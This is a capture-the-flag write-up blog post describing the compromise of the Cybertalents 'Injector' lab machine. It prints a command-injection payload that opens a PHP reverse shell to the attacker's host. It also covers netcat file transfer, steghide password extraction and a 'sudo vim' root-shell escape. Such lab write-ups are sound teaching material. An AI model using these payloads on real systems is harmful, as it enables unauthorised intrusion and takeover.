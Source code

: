```yaml
---
title: Cybertalents Injector Machine
published: true
---
```


Hello, I'm **Omar**!
i hope y'all safe and still following me after my last writeup xD
Today i'll share with you my writeup for Injector Machine from Cybertalents.

![](/assets/injector/MachineDetails.png)

First of all, you should connect to CyberTalents VPN , You will see the instructions in the file given.

I'll start with the enumeration.

![](/assets/injector/iDontUsuallyMeme.png)


Hmm, we find port 22 opened for ssh, and 80 for http(web server) running under Apache/2.4.29

![](/assets/injector/nmapResult.png)

let's Discover the webserver....

![](/assets/2000yearslater.jpg)

Sorry for my weak machine :"

We'll See a Default Apache page it's automatically generated when you install apache.


![](/assets/injector/DefaultPage.png)

Nothing got my attention or interested , let's discover the hidden directories & file using dirsearch

using `dirsearch -u http://172.24.170.117/ -e *` we will get this result

![](/assets/injector/dirsearchone.png)

the secret directory is interesting,

![](/assets/injector/secretsus.png)

let's open the directory in browser

![](/assets/injector/secretdir.png)

nothing interesting, let's discover what's on using same command-line.

![](/assets/injector/tdirsearchtwocropped.png)

when i found admin.html i stopped the tool i go admin.html and said finally then the page loaded :) 

![](/assets/injector/trollpage.png)

i run the tool again and let the tool complete the scan :D 


![](/assets/injector/dirsearchtwo.png)

i went to all directories and found /tools didn't troll me 
in /tools i found "ping.php"
![](/assets/injector/secret-tools.png)



before i join i was know it's will be a [Command Injection](https://owasp.org/www-community/attacks/Command_Injection) Vulnerability
Okay open the php page, we will see input if we put 127.0.0.1 and click lookup the server will ping the ip.
![](/assets/injector/ping127.png)
It's so simple, let's get a quick reverse shell.
i'll using php for reverse shell and my command is `127.0.0.1; php -r '$sock=fsockopen("172.24.143.xx",1337);exec("/bin/sh -i <&3 >&3 2>&3");'`
before you execute the command we should make a netcat listener first.
![](/assets/injector/nc.png)
and then click lookup in the web-page
Okay, we now got a reverse shell.
![](/assets/injector/shell.png)

Firstly
Let's spawn a terminal i don't know why but i do it, using `python3 -c 'import pty;pty.spawn("/bin/bash")';`

![](/assets/injector/pythonterminal.png)

now we're on www-data we should get a user, after 2 days of trying & search i back the photo i found in /var/www a jpg photo called TrollFace.jpg.

let's copy it to our machine using [This netcat method](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers)

Transaferd.
![](/assets/injector/sendend.png)
![](/assets/injector/refend.png)

i tried to use strings in the image but useless, i tried `steghide extract -sf TrollFace.jpg` without passphrase and it worked !
Lets cat the file

![](/assets/injector/steghide.png)

we got a password, lets see our users.
just cat /etc/passwd and We will see user alex,

![](/assets/injector/alexuser.png)

Let's switch user to alex using 'su' and use the password we got from TrollFace.jpg

![](/assets/injector/useralex.png)

Best Part,
![](/assets/injector/privesaclememe.png)

Let's do Some Privilege Escalation,
Firstly i do sudo -l for show the commands runs with root permissions,

![](/assets/injector/sudol.png)
Vim works with Root permissions, Here we go after ask my friend 'Hameed' he gave me this command and it's works well. Thank you!

``sudo vim -c ' : ! /bin/sh ' /usr/bin/vim``

We got a root shell!

![](/assets/injector/root.png)

Thank you for reading,any questions? contact me on facebook!

